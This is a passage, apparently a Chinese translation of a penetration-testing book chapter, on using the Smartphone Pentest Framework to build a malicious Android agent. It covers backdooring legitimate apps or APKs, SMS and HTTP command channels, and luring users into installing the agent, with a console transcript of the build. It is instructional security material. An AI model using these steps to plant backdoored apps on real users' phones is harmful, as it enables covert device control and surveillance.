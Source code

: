 在 Android 安全模型中，应用程序必须请求使用可能被恶意使用的 API 权限，用户必须在安装时接受请求的权限。不幸的是，用户常常会授予各种潜在危险的权限。我们可以利用 Android 权限，在用户安装恶意应用后，控制设备，而无需运行额外的漏洞利用程序。

### 创建恶意 SPF 代理

SPF 允许我们创建具有各种有趣功能的恶意应用程序。之前我们在渗透测试者控制的设备上使用了 SPF 应用，允许 SPF 使用设备的移动调制解调器及其他功能；我们的目标是欺骗用户将 SPF 代理安装到目标设备上。

截至目前，SPF 代理可以通过 HTTP 检查服务器或通过 SPF 控制的移动调制解调器接收隐藏的 SMS 消息来接收命令。自然地，如果我们的代理看起来像一个有趣和/或值得信赖的应用，我们会更成功。我们可以将代理嵌入到任何合法的应用程序中：SPF 可以将已编译的 APK 文件嵌入代理后门，或者如果我们有应用程序的源代码，我们也可以在其中加入后门。

#### 后门源代码

让我们以后门源代码为例。选择主 SPF 菜单中的 `1.) 附加框架到已部署的代理/创建代理`。SPF 包括一些我们可以用于示例的应用模板。你还可以使用选项 `4` 将任何应用的源代码导入到 SPF 中。如果你没有要伪装的应用程序的源代码，你可以使用选项 `5` 给已编译的 APK 添加后门。你甚至可以利用 2013 年发现的 Android 主密钥漏洞，将已安装在设备上的应用程序替换为带有后门的版本。现在，让我们只使用 SPF 的模板之一，如示例 20-11 所示。

示例 20-11. 构建 Android 代理

```
spf> **1**

Select An Option from the Menu:
    1.) Attach Framework to a Deployed Agent
    2.) Generate Agent App
    3.) Copy Agent to Web Server
    4.) Import an Agent Template
    5.) Backdoor Android APK with Agent
    6.) Create APK Signing Key

spf> **2**❶
    1.) MapsDemo
    2.) BlankFrontEnd

spf> **1**❷
Phone number of the control modem for the agent: **15555215554**❸
Control key for the agent: **KEYKEY1**❹
Webserver control path for agent: **/androidagent1**❺
Control Number:15555215554
Control Key:KEYKEY1
ControlPath:/androidagent1
Is this correct?(y/n) **y**
--*snip*--

BUILD SUCCESSFUL
```

选择 `2.) 生成代理应用` ❶。我们将使用 Google 随 Android SDK 提供的 MapsDemo 示例模板 ❷ 来演示功能。当系统提示时，输入接收 SMS 命令的电话号码 ❸，SPF 的七位字符密钥 ❹，以及用于 HTTP 命令的检查目录 ❺。对于代理密钥和路径，使用你在创建 SPF 应用时所用的相同值（构建 Android 应用）。使用 Android 4.3 模拟器（SPF 应用）上的电话号码作为控制电话号码。SPF 会在选择的模板中构建 Android 代理。

现在引诱用户下载和安装代理，这个过程类似于我们的客户端攻击，按照 示例 20-12 中的步骤进行。

示例 20-12. 引诱用户安装代理
